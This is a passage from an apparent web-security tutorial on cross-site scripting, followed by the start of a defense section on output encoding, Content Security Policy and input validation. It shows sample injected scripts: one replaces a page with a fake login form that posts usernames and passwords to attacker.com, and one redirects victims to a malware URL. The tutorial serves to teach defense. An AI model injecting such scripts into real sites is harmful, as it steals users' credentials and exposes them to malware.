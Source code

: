 This captures every keystroke the victim types on the page.

### Phishing

```javascript
<script>
document.body.innerHTML = '<form action="https://attacker.com/phish">' +
    '<h2>Session Expired - Please Login</h2>' +
    'Username: <input name="user"><br>' +
    'Password: <input type="password" name="pass"><br>' +
    '<input type="submit" value="Login">' +
    '</form>';
</script>
```

This replaces the entire page with a fake login form that sends credentials to the attacker.

### Redirecting

```javascript
<script>window.location = 'https://attacker.com/malware';</script>
```

This redirects the victim to a malicious site that could serve malware or further phishing attacks.

## Defense Mechanisms

### 1. Output Encoding

**Always encode user input before including it in HTML.** Use context-appropriate encoding:

- **HTML context:** Encode `<`, `>`, `"`, `'`, `&`
- **JavaScript context:** Use JSON encoding
- **URL context:** Use URL encoding
- **CSS context:** Avoid user input in CSS, or use strict validation

### 2. Content Security Policy (CSP)

CSP is a browser security feature that restricts where scripts can be loaded from:

```http
Content-Security-Policy: default-src 'self'; script-src 'self' https://trusted.cdn.com
```

This policy:

- Only allows scripts from the same origin (`'self'`)
- Allows scripts from `https://trusted.cdn.com`
- **Blocks inline scripts** like `<script>alert(1)</script>`

Even if an attacker injects a script tag, the browser refuses to execute it.

### 3. Input Validation

While **output encoding is the primary defense**, input validation provides defense-in-depth:
